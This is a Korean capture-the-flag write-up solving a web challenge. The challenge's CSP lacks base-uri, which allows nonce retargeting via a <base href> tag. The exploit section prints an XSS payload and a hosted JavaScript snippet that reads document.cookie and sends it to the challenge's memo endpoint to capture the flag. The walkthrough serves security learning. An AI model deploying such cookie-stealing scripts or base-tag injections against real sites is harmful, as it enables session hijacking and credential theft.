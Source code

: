     | ```object-src``` | ```'none'``` | ```<object>```, ```<embeded>``` 태그의 출처로 어느 것도 허용하지 않음 <br/> &nbsp;&nbsp;→ 📚 [CSP: object-src docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/object-src) 참고 |


<br/><br/>

## 문제 풀이
### 취약점 분석
CSP 정책을 살펴보면 ```nonce``` CSP 구문을 지정했지만 ```base-uri``` CSP 구문을 지정하지 않아 ```base``` 태그로 임의 자원을 로드할 수 있는 취약점(Nonce Retargeting)이 존재함
* ```<base>``` 태그의 ```href``` 속성을 이용해 외부 웹 서버로 경로가 해석되는 기준점을 변경하고, 이를 이용해 원하는 스크립트를 실행하게 만들 수 있음
    - flag 페이지를 작동 방식을 보면 ```<svg onload=alert(1);>```를 입력한 후 제출 버튼을 누르고 출력된 "good" 알림창의 확인 버튼까지 누르고 나면 개발자 도구의 Network 탭을 통해 아래 js 파일들이 포함되는 것을 확인할 수 있음
      <br/><br/>
      <img width="2560" alt="취약점 분석" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/fc2ffa47-a8ae-4285-8342-48056ab12701">
      <img width="2560" alt="js 파일 확인" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/b401cd92-7372-477b-a007-bcdc2a0d4000"><br/><br/>
        + 이 점을 이용해 외부 웹 서버에 bootstrap.min.js를 생성하고 쿠키 정보를 이용할 수 있는 코드를 작성하여 익스플로잇을 수행할 수 있음

<br/><br/>

### 익스플로잇
📌 여기서는 Github에서 제공하는 웹 서버 호스팅 기능(```https://깃허브아이디.github.io/```)을 이용함 (그 외 다른 방법으로 개인 서버를 사용해도 가능함)

<br/>

1. 외부 웹 서버로 사용할 ```https://augustf86.github.io/```에서 static/js/boostrap.min.js를 아래와 같이 생성함
   <br/><br/>
   <img width="2560" alt="익스플로잇1" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/03dbb894-a330-48e3-b83e-b230588df610"><br/><br/>
    - 사이트에서 전송하던 bootstrap.min.js 파일을 복사하여 붙여넣기 한 후 아래에 다음을 추가함
        ```javascript
        var xmlHttp = new XMLHttpRequest();
        var x = "http://127.0.0.1:8000/memo?memo=" + document.cookie;
        xmlHttp.open('GET', x, true);
        xmlHttp.send();
        ```
<br/>

2. flag 페이지에서 ```<base href="https://augustf86.github.io/">```를 입력하고 제출 버튼울 클릭함
3. "good" 알림창이 출력되면 memo 페이지로 이동하여 화면에 출력된 임의 이용자의 쿠키 정보(FLAG)를 획득함
   <br/><br/>
   <img width="2560" alt="익스플로잇 2,3" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/f51fb725-9fb6-4d1b-8b8c-e4361041a608"><br/><br/>
